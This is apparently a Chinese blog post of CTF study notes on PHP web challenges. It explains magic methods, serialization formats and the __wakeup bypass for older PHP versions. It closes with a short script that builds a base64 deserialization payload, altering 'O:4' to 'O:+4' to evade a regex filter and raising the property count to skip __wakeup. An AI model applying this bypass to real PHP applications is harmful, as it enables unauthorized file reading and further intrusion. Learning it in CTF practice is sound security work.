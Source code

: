 ```yaml
---
title: ctf-web练习(php)
date: 2023-09-18 00:30:52
tags:
categories:
  - [ctf-web]
  - 渗透
---
```

# ctf-web练习(php)--待补充

## 代码审计基础知识

代码检查是审计工作中最常用的技术手段，实际应用中，采用“自动分析+人工验证”的方式进行。通常检查项目包括:系统所用开源框架、源代码设计、错误处理不当、直接对象引用、资源滥用、API滥用、后门代码发现等，通常能够识别如下代码中的风险点：

跨站脚本漏洞、跨站请求伪装漏洞、SQL注入漏洞、命令执行漏洞、日志伪造漏洞、参数篡改、密码明文存储、配置文件缺陷、路径操作错误、资源管理、不安全的Ajax调用、系统信息泄露、调试程序残留、第三方控件漏洞、文件上传漏洞、远程命令执行、远程代码执行、越权下载、授权绕过漏洞。

![image-20230914165928110](https://s2.loli.net/2023/09/14/gY5Goj1kVz3eQ9b.png)

## php知识

### php的魔术方法

- __construct() 当一个对象创建时被调用 --构造函数
- __destruct() 当一个对象销毁时被调用 --析构函数
- __wakeup() 使用unserialize时触发
- __sleep() 使用serialize时触发
- __toString()  当一个对象被当做一个字符串时来使用

### php的变量类型

public：属性被序列化的时候属性值会变成 `属性名`

protected：属性被序列化的时候属性值会变成 `\x00*\x00属性名`

private：属性被序列化的时候属性值会变成 `\x00类名\x00属性名`

```php
<?php
class People{
    public $id;
    protected $gender;
    private $age;
    public function __construct(){
        $this->id = 'Hardworking666';
        $this->gender = 'male';
        $this->age = '18';
    }
}
$a = new People();
echo serialize($a);
?>
//O:6:"People":3:{s:2:"id";s:14:"Hardworking666";s:9:" * gender";s:4:"male";s:11:" People age";s:2:"18";}

```

注意：比如，$file 是私有成员，序列化之后字符串首尾会多出两个空格 “%00*%00”，如果有时候利用html网页复制值可能会出现问题。

### php序列化和反序列化

PHP序列化：serialize()

序列化是将变量或对象转换成字符串的过程，用于存储或传递 PHP 的值的过程中，同时不丢失其类型和结构。

而PHP反序列化：unserialize()

反序列化是将字符串转换成变量或对象的过程。

从序列化到反序列化这几个函数的执行过程是：

```php
__construct()` ->`__sleep()` -> `__wakeup()` -> `__toString()` -> `__destruct()
```

```php
<?php  
class TEST{  
 public $test1="11";  
 private $test2="22";  
 protected $test3="33";  
 public function test4()  
 {  
 echo $this->test1;  
 }  
}  
$a=new TEST();  
echo serialize($a); 
?>
//O:4:"TEST":3:{s:5:"test1";s:2:"11";s:11:"TESTtest2";s:2:"22";s:8:"*test3";s:2:"33";}
//O代表类，然后后面4代表类名长度，接着双引号内是类名
//然后是类中变量的个数：{类型：长度:"值"；类型:长度:"值"...以此类推}
//有时候为了避免private和protected导致一些字符不可打印，通常会urlencode一下

```

学习链接：

https://zhuanlan.zhihu.com/p/601673949

## 题目

### 1. ctf-web-“PHP2” 

- phps文件就是php的**源代码文件**，通常用于提供给用户（访问者）查看php代码，因为用户无法直接通过Web浏览器看到php文件的内容，所以需要用**phps**文件代替。其实，只要不用php等已经在服务器中注册过的MIME类型为文件即可，但为了国际通用，所以才用了phps文件类型。

- 运用后台扫描工具

  

### 2. ctf-web-unserialize3

##### **原理**

PHP**反序列化漏洞**：执行unserialize()时，先会调用__wakeup()。

当序列化字符串中属性值个数大于属性个数，就会导致反序列化异常，从而跳过__wakeup()。

（**影响版本**php5<5.6.25,php7<7.010）已经测试过，在本机php8.2中，并不会有该漏洞的出现。

##### **目的**

了解绕过常见的**函数过滤**机制

### 3.Web_php_unserialize

类似于上题，只是多了一个正则过滤问题

![image-20230925181847920](https://s2.loli.net/2023/09/25/vbW31rf7uKmqcSk.png)

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}

    $A = new Demo('fl4g.php');
    $C = serialize($A);
    //string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
    $C = str_replace('O:4', 'O:+4',$C);//绕过preg_match
    $C = str_replace(':1:', ':2:',$C);//绕过wakeup

    var_dump(base64_encode($C));
   

    
?>
```

曾出现的问题：

$file 是私有成员序列化之后字符串首尾会多出两个空格 “%00*%00”，所以base64加密最好在代码中执行防止复制漏掉----本人刚开始的解题思路便是启动服务器输出序列化后的字符串然后进行复制，再在代码中进入下一步操作，然后出现了问题。

#### 参考链接

https://blog.csdn.net/Hardworking666/article/details/122373938

https://www.cnblogs.com/hugboy/p/web_php_unserialize.html

